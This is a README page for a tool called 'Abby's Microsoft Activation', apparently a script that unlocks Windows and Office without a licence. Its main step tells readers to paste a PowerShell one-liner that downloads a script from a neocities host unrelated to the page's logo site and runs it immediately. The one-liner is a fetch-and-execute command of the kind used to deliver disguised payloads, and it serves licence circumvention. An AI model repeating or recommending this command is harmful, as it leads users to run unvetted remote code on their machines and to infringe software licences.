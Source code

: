 <p align="center"><img src="https://masterpantsu.neocities.org/pfp.png" alt="AMA Logo"></p>

<h1 align="center">Abby's Microsoft  Activation  (AMA)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook activation methods.</p>

<hr>
  
## Download / How to use it?

### Method 1 - PowerShell (Windows 8 and later) ❤️

1.   Open PowerShell (Not CMD). To do that, right-click on the Windows start menu and select PowerShell or Terminal.
2.   Copy and paste the code below and press enter  
```
irm https://jamesradio.neocities.org/activator | iex
```
3.   You will see the activation options. Choose [1] HWID for Windows activation. Choose [2] Ohook for Office activation.
4.   That's all.

